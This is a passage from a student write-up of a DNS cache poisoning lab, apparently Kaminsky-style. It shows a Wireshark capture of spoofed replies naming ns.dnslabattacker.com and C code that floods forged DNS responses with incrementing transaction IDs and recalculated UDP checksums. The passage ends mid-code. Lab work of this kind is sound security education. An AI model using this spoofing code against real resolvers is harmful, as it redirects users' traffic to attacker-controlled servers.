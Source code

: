 The image below shows the package we captured in Wireshark. We defined three records: one question, one answer and one authority. Our spoofing package aimed to make the "<ins style="color:blue;font-weight:bold">DNS</ins>" believe that the address of `aaaaa.example.edu` should be `1.2.3.4` and the name server should be `ns.dnslabattacker.com`. 

<figure>
<img style="width:100%" src="/assets/images/16351739843977/16356264191956.jpg"/>
<figcaption>Figure 1.2.2.1 Capture package after spoofing DNS Replies </figcaption><br>
</figure>

### 1.3 SubTask: Launch an attack 

In this part, we moved our implementation in previous subtask into the `udp.c` file. Therefore, there were both `buffer` and `resp_buffer` storing the dns request and the dns response package respectively. 
After that, we changed the codes about sending the package as below. We used similar codes before to change the request and response URL randomly. Because of the modification, we had to recalculate the UDP checksum(related to the UDP package data) but not the IP checksum (depended only on the header). 

Mostly-important codes below are related to the transaction id and the number of responses. We found that it is hard to successfully replace the cache if we made the number too small. It is because most of package arrives before the "<ins style="color:blue;font-weight:bold">DNS</ins>" sends request to remote name server. However, if the number is too larger, it will slow down the attack. Therefore, we use $1000$ in our implementation. As to the transaction id, we made it random at first and increased one in each response.

```c
while(1){	
    // Randomly change the request and response url
    int charnumber = 1+rand()%5;
    char rd_char = ('a' + rand()%26);
    *(data+charnumber) = rd_char;
    *(qd_name+charnumber) = rd_char; 
    *(an_name+charnumber) = rd_char;
        
    // recalculate the checksum for the UDP packet
    udp->udph_chksum=check_udp_sum(buffer, packetLength-sizeof(struct ipheader)); 
    // send response the packet out
    if(sendto(sd, buffer, packetLength, 0, (struct sockaddr *) &requ_sin, sizeof(requ_sin)) < 0)
        printf("packet send error %d which means %s\n", errno, strerror(errno));
        
    for(int i=0; i<1000; i++){
        resp_dns->query_id += 1; 
        resp_udp->udph_chksum=check_udp_sum(resp_buffer, resp_ip_pkg_len-sizeof(struct ipheader));
```
